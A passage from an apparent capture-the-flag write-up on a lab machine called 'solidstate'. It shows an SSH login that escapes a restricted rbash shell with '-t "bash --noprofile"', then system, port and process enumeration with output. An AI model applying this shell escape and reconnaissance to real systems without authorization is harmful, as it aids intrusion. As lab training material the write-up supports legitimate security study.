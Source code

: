 ```
└─$ ssh mindy@10.10.10.51 -t "bash --noprofile"                                                               1 ⨯
mindy@10.10.10.51's password: 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ pwd
/home/mindy
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ c d..
bash: c: command not found
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cd ..
${debian_chroot:+($debian_chroot)}mindy@solidstate:/home$ ls -la
total 16
drwxr-xr-x  4 root  root    4096 Apr 26  2021 .
drwxr-xr-x 22 root  root    4096 Apr 26  2021 ..
drwxr-xr-x 16 james osboxes 4096 Apr 26  2021 james
drwxr-x---  4 mindy mindy   4096 Apr 26  2021 mindy
${debian_chroot:+($debian_chroot)}mindy@solidstate:/home$

```

We have managed to escape the rbash jail.

### Enumeration as "mindy"

Let's check for system information, open ports, running services, sudo and SUID binaries.

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ uname -a
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686 GNU/Linux
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cat /etc/issue
Debian GNU/Linux 9 \n \l

${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0    612 10.10.10.51:22          10.10.14.2:34124        ESTABLISHED -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
tcp6       0      0 :::119                  :::*                    LISTEN      -                   
tcp6       0      0 :::25                   :::*                    LISTEN      -                   
tcp6       0      0 :::4555                 :::*                    LISTEN      -                   
tcp6       0      0 :::110                  :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -       
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ps aux | grep root
root         1  0.0  0.3  26948  6348 ?        Ss   11:33   0:01 /sbin/init
root         2  0.0  0.0      0     0 ?        S    11:33   0:00 [kthreadd]
root         3  0.0  0.0      0     0 ?        S    11:33   0:00 [ksoftirqd/0]
root         5  0.0  0.0      0     0 ?        S<   11:33   0:00 [kworker/0:0H]
root         7  0.0  0.0      0     0 ?        S    11:33   0:01 [rcu_sched]
root         8  0.0  0.0      0     0 ?        S    11:33   0:00 [rcu_bh]
```